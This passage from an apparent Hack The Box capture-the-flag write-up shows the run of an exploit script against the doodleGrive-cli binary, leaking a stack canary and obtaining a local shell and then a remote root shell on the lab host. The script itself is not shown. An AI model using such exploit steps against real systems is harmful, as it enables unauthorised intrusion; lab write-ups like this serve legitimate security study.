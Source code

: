 Running this locally gives a shell:

```

oxdf@hacky$ python sploit.py
[*] '/media/sf_CTFs/hackthebox/drive-10.10.11.235/doodleGrive-cli'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/media/sf_CTFs/hackthebox/drive-10.10.11.235/doodleGrive-cli': pid 778049
[*] Leak canary: 0x16285182807784140032
[*] Switching to interactive mode

$ id
uid=1000(oxdf) gid=1000(oxdf) groups=1000(oxdf),115(netdev),123(nopasswdlogin),141(docker),999(vboxsf)

```

If I give it the `SSH` argument, it works remotely:

```

oxdf@hacky$ python sploit.py SSH
[*] '/media/sf_CTFs/hackthebox/drive-10.10.11.235/doodleGrive-cli'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Connecting to drive.htb on port 22: Done
[*] tom@drive.htb:
    Distro    Ubuntu 20.04
    OS:       linux
    Arch:     amd64
    Version:  5.4.0
    ASLR:     Enabled
[+] Starting remote process bytearray(b'/home/tom/doodleGrive-cli') on drive.htb: pid 1743058
[*] Leak canary: 0x11875039814129743360
[*] Switching to interactive mode

# id
uid=0(root) gid=0(root) groups=0(root),1003(tom)
# cat /root/root.txt
641e7a5b************************

```